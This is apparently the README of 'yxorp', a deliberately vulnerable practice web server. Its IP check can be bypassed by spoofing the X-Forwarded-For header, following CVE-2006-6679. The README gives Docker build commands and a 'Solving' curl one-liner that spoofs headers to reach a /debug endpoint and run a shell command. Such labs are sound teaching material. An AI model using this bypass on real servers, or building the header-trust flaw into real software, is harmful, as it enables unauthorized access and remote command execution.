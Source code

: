 # yxorp

yxorp is a vulnerable web server that can be exploited by sending the correct headers in a webrequest.


# Description

The vulns are based on the following techniques and CVEs:
1. [CVE-2006-6679](https://nvd.nist.gov/vuln/detail/CVE-2006-6679)
    > ... relies on the X-Forwarded-For HTTP header when verifying a client's status on an IP address ACL, which allows remote attackers to gain unauthorized access by spoofing this header.

## Building and Deploying with Docker

```
docker build -t yxorp .
docker run -p 80:80 yxorp
```

## Solving

`curl -H "X-Forwarded-For: 127.0.0.2:9999" -H "Host: localhost.localdomain" http://localhost:80/debug\?cmd\=ls`

